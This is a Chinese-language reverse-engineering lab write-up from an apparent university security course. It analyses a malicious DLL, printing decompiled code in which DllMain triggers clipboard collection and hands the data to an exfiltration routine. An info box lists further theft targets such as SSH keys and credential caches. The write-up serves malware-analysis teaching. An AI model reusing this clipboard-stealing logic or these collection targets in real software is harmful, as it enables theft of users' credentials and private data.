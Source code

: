 ```yaml
---
title: Simple Reverse - 0x22(2023 Lab - WinMalware - Collect)
tags: [eductf, CTF, Reverse]

category: "Security/Course/NTU CS/Reverse/WinMalware Lab"
---
```


# Simple Reverse - 0x22(2023 Lab - WinMalware - Collect)

## Background
如果想要分析DLL，可以從以下三個地方切入
* _DllMainCRTStartup (DLL 載入和移除時的初始化與收尾)
    * DllMain / DllEntryPoint / CRT_INIT (function signature 相同)
    * 找有三個參數的 function call
    ![](https://hackmd.io/_uploads/Sk0GgCaz6.png)
    範例就大概像這樣，從`_DllMainCRTStartup`底下有`call _CRT_INIT`和`call DllEntryPoint`(`DllMain`在比較下面)
    ![](https://hackmd.io/_uploads/HklyZRTf6.png)
* Exported Functions
* TLS Callback
* [OpenClipboard](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-openclipboard)
* [GetClipboardData](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-getclipboarddata)
* [globalLock](https://learn.microsoft.com/zh-tw/windows/win32/api/winbase/nf-winbase-globallock)
* [\_itoa](https://learn.microsoft.com/zh-tw/cpp/c-runtime-library/reference/itoa-itow?view=msvc-170)

## Source Code
IDA解析的source code很常會出現明明沒有return value但還是自動建立的狀況，所以適時的刪除return value(Shift+DEL)是對分析比較好的做法
* DllMain
    ```cpp=
    BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
    {
      if ( fdwReason == 1 )
      {
        MessageBoxA(0i64, "Reflective Dll Injection success. Remember to delete the persistence file", "eductf-lab", 0);
        my_main();    // 不重要的東西
        collect_and_exfiltrate();
      }
      return 1;
    }
    ```
* collect_and_exfiltrate
    ```cpp=
    void collect_and_exfiltrate(void)
    {
      PUCHAR pbInput; // [rsp+28h] [rbp-10h] BYREF

      pbInput = 0i64;
      collect_data(&pbInput);
      exfiltrate(pbInput);
    }
    ```
* collect_data
    ```cpp=
    void __fastcall collect_data(char **pbInput)
    {
      char *pbInput_1; // [rsp+28h] [rbp-10h] BYREF

      collect_get_clipboard_data(&pbInput_1);
      *pbInput = pbInput_1;
    }
    ```
* collect_get_clipboard_data
    ```cpp=
    void __fastcall collect_get_clipboard_data(LPVOID *pbInput)
    {
      HANDLE ClipboardData; // rax
      void *v3; // rsi
      int LastError; // eax
      char Buffer[34]; // [rsp+26h] [rbp-22h] BYREF

      if ( OpenClipboard(0i64) )
      {
        ClipboardData = GetClipboardData(1u);
        v3 = ClipboardData;
        if ( ClipboardData )
        {
          *pbInput = GlobalLock(ClipboardData);
          GlobalUnlock(v3);
        }
        else
        {
          LastError = GetLastError();
          _itoa(LastError, Buffer, 10);
        }
      }
      CloseClipboard();
    }
    ```

## Recon
目前要分析的重點著重在DllMain中，所以其他的切入點可以先不管，並且先聚焦在collect data身上。其實作者一開始就有把debug information都放在這邊，所以分析可以更順暢
1. 首先trace一下上面所有的code，會發現其實簡單到根本不用查MSDN也知道在幹嘛，就是把受害主機的剪貼簿打開，並取得這個剪貼簿的開頭指標，再回傳給`pbIntput`
2. 最後再傳給後續的exfiltrate function

:::info
目前的攻擊手法符合Mitre ATT&CK的[T1115](https://attack.mitre.org/techniques/T1115/)，剪貼簿中可能剛好有帳號、密碼、信用卡號之類的
除了剪貼簿，還能收集很多其他東西，像是：
* PDF、DOCX、XLSX、Email、Git source code
* SSH private key、Key logging、OS credential cache
* 麥克風、鏡頭、其他外接裝置
* 任何你想得到的資訊
:::